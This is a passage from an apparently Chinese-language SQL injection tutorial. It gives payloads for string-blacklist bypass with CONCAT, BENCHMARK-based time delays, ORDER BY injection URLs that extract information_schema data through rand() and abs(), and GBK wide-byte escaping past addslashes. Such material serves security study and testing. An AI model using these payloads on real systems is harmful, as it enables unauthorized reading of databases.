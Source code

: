 ### 绕过字符串黑名单

```sql
SELECT 'a' 'd' 'mi' 'n';
SELECT CONCAT('a', 'd', 'm', 'i', 'n');
SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n');
SELECT GROUP_CONCAT('a', 'd', 'm', 'i', 'n');
```

使用 `CONCAT()` 时，任何个参数为 null，将返回 null，推荐使用 `CONCAT_WS()`。`CONCAT_WS()`函数第一个参数表示用哪个字符间隔所查询的结果。

### 条件语句

`CASE`, `IF()`, `IFNULL()`, `NULLIF()`.

```sql
SELECT IF(1=1, true, false);
SELECT CASE WHEN 1=1 THEN true ELSE false END;
```

### 延时函数

`SLEEP()`, `BENCHMARK()`.

```sql
' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - '
```

### order by 后的注入

`order by` 由于是排序语句，所以可以利用条件语句做判断，根据返回的排序结果不同判断条件的真假。一般带有 `order` 或者 `order by` 的变量很可能是这种注入，在知道一个字段的时候可以采用如下方式注入：

原始链接：`http://www.test.com/list.php?order=vote`

根据 `vote` 字段排序。找到投票数最大的票数 `num` 然后构造以下链接：

```
http://www.test.com/list.php?order=abs(vote-(length(user())>0)*num)+asc
```

看排序是否变化。还有一种方法不需要知道任何字段信息，使用 `rand` 函数：

```
http://www.test.com/list.php?order=rand(true)
http://www.test.com/list.php?order=rand(false)
```

以上两个会返回不同的排序，判断表名中第一个字符是否小于 128 的语句如下：

```
http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128))
```

### 宽字节注入

国内最常使用的 GBK 编码，这种方式主要是绕过 `addslashes` 等对特殊字符进行转移的绕过。反斜杠 `\` 的十六进制为 `%5c`，在你输入 `%bf%27` 时，函数遇到单引号自动转移加入 `\`，此时变为 `%bf%5c%27`，`%bf%5c` 在 GBK 中变为一个宽字符「縗」。`%bf` 那个位置可以是 `%81-%fe` 中间的任何字符。不止在 SQL 注入中，宽字符注入在很多地方都可以应用。
